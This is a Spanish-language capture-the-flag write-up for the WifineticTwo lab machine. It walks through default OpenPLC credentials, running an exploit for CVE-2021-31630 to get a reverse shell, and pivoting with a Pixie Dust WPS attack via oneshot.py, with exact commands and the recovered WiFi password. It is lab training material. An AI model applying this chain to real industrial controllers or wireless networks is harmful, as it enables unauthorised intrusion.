WifineticTwo
- Realizo un escaneo de la máquina nmap 10.10.11.7 -Pn -sC -sV -A -p- -T4 -oA scan
- Encuentro los servicios SSH y HTTP abiertos
- Con el parametro -sC encuentro un login

- Pruebo con las credenciales default y consigo entrar "openplc:openplc"
- Encuentro un apartado para subir programas Pero tienen que ser con extensión .st
- Busco en internet algún exploit y encuentro CVE-2021-31630 que permite RCE Auntentificado.
- Ejecuto la script python exploit.py -ip <YOUR IP> -p <YOUR PORT> -u <USERNAME> -pwd <PASSWORD>
- Obtengo el reverse shell

- En esta máquina soy el usuario root pero no encuentro la flag de root.

- Creo que voy a tener que pivotar a otra máquina para obtener el root.
- con ifconfig encuentro otra red

- Voy a escanear esta red pero no está nmap instalado por lo que uso el comando arp


- Definitivamente el pivoting está ahí
- En la ruta /etc encuentro algo relacionado con el WPA

- Escaneo la wlan0 iwlist wlan0 scan

- El protocolo de seguridad es vulnerable a ataques pixie dust

- Este ataque nos permite recuperar la clave de red wifi
- Paso el archivo oneshot.py a mi maquina atacada

- Tenemos que pasarle los parámetros correctos

- Ejecutamos el script python3 oneshot.py -b 02:00:00:00:01:00 -i wlan0 -K
- Obtenemos la contraseña de la red

- El sistema cuenta con estos comandos tanto como para administrar una red como para administrar los servicios del sistema

- Uso esta guia para conectarme a la red usando wpa_supplicant https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! | sudo tee -a /etc/wpa_supplicant/wpa_supplicant.conf

- Creamos otro archivo en systemd

- Asignamos la dirección IP sudo ifconfig wlan0 192.168.1.7 netmask 255.255.255.0 up
- con ip a vemos las direcciónes dentro de la red

- Hago un arp -a a esa red y encuentro un gateway
- Accedo a través de ssh a ese gateway y encuentro la flag root
